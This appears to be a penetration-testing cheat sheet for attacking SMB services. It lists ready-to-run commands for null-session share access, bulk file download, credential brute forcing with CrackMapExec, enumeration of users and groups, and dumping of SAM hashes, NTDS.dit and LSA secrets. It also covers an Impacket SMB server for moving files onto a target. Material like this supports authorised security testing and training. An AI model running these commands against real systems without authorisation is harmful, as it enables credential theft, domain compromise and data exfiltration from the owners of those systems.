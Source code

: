 # SMB

:::tip Null Sessions

Do not forget to leverage null sessions to enumerate users, groups, shares, etc.

:::

## SMBClient

### Downloading files

Connect using the command below:

```bash
smbclient //<ip>/<share>
```

In interactive mode:

```bash
smb: \> mask ""
smb: \> recurse
smb: \> prompt
smb: \> mget *
```

## CrackMapExec

### Connecting using a null session

```bash
crackmapexec smb <ip> -u '' -p '' --shares
```

### Brute forcing credentials

```bash
crackmapexec smb <ip> -u <usersfile> -p <passwordsfile> | grep -v '\[-\]'
```

### Enumerating shares

```bash
crackmapexec smb <ip> -u <username> -p <password> --shares
```

### Enumerating users

```bash
crackmapexec smb <ip> -u <username> -p <password> --users
```

### Enumerating groups

```bash
crackmapexec smb <ip> -u <username> -p <password> --groups
```

### Enumerating password policy

```bash
crackmapexec smb <ip> -u <user> -p <password> --pass-pol
```

### Dumping SAM hashes

```bash
crackmapexec smb <ip> -u <username> -p <password> --sam
```

### Dumping NTDS.dit

```bash
crackmapexec smb <ip> -u <username> -p <password> --ntds
```

### Dumping LSA Secrets

```bash
crackmapexec smb <ip> -u <username> -p <password> --lsa
```

## Impacket

### Launch an SMB server

```bash
impacket-smbserver -smb2support <share name> <share path>
```

:::tip Moving files to the target machine

You can use the `cmd.exe`to move files to the target machine.

```batch
move <file> \\<ip>\<share>
```

:::
